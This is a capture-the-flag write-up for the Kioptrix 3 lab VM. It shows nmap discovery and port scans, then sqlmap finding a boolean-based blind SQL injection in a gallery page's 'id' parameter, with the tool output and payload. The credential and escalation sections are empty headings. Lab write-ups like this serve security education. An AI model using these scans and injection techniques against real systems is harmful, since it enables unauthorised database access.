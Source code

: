 ```yaml
---
    title: Kioptrix 3 Walkthrough
    date: 2019-01-30
    excerpt: "3rd Kioptrix CTF Write-up and Tutorial"
    tags: [ctf, cybersec, kioptrix, nmap]
---
```


# Kioptrix 3

Kioptrix 3 is the third of five VMs in the Kioptrix line. True to the author's word, it is quite different from the first two. This one involves exploiting a web application rather than a known vulnerability.

VM can be downloaded at [Vulnhub](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/).

## My Setup
I'll be attacking this in Kali Linux from VirtualBox on Windows. As with all the other CTFs I've done, they're on a shared NATNetwork with Kali.

**IP Range:** The IP range I have set for the NATNetwork is 10.0.2.0/24.

## VM Discovery
Nmap's ping scan is handy for this. Just use the -sP flag with your desired IP range.

```bash
root@kali:~/Desktop/k3# nmap -sP 10.0.2.0/24
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-28 15:10 EST
...
MAC Address: 08:00:27:0E:07:C0 (Oracle VirtualBox virtual NIC)
Nmap scan report for kioptrix3.com (10.0.2.12)
Host is up (0.00014s latency).
...
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.05 seconds
```

The VM is 10.0.2.12 for me.

## Port Scan
While it mentions a web app, we might as well see if there's anything else.

```bash
root@kali:~/Desktop/k3# nmap -p- -sS -sV -T4 10.0.2.12
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-28 15:12 EST
Nmap scan report for kioptrix3.com (10.0.2.12)
Host is up (0.000091s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
MAC Address: 08:00:27:52:39:9E (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.65 seconds
```

Nothing much to go off of here. Even if PHP was vulnerable, we'd need to write a file to the server to take advantage of it.

### Hosts
Before we go on, the VM requests we add the VM's IP address as "kioptrix3.com" to the hosts file.

## La Galerie
The hompeage mentions a new gallery CMS.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/kioptrix3/homepage.PNG" alt="">
  <figcaption>Ligoat Security homepage.</figcaption>
</figure>

So, as the homepage want, let's cut to the chase and view the "new gallery".

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/kioptrix3/gallery.PNG" alt="">
  <figcaption>The new gallery.</figcaption>
</figure>

If we poke around, it's possible to view individual images, recent photos, total views, etc. Aside from the images, one thing to always be on the lookout for, especially with older or easier CTFs, is the possibility for SQL injection.

Looking at the "Ligoat Press Room" gallery, there's a photo sorting option down in the lower left.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/kioptrix3/sorting_options.PNG" alt="">
  <figcaption>Photo sorting</figcaption>
</figure>

When we click this, it updates the URL with some additional parameters.

<figure>
  <img src="{{ site.url }}{{ site.baseurl }}/assets/img/kioptrix3/url.PNG" alt="">
  <figcaption>Update URL, now with PHP_GET</figcaption>
</figure>

## SQL Injection Method
If you're new to SQL injection, one of the best tools (if a little noisy) is SQLMap. Let's run the new URL through it and see if it can automatically detect the vulnerability.

```bash
root@kali:~# sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos
[1] 5730
root@kali:~#         ___
       __H__
 ___ ___["]_____ ___ ___  {1.3#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:27:57 /2019-01-31/

[18:27:57] [INFO] resuming back-end DBMS 'mysql' 
[18:27:57] [INFO] testing connection to the target URL
[18:27:57] [INFO] heuristics detected web page charset 'ISO-8859-2'
[18:27:57] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: id=(SELECT (CASE WHEN (1853=1853) THEN 1 ELSE (SELECT 8565 UNION SELECT 5169) END))
---
[18:27:57] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8
back-end DBMS: MySQL 5
[18:27:57] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 1 times
[18:27:57] [INFO] fetched data logged to text files under '/root/.sqlmap/output/kioptrix3.com'

[*] ending @ 18:27:57 /2019-01-31/
```

As you can see, it identified the 'id' parameter within the URL. In addition, SQLMap ran some automated tests and got some back-end server information. We can give a couple arguments to SQLMap to grab some more info from the database.

## DB Credentials
## Escalation

## Flag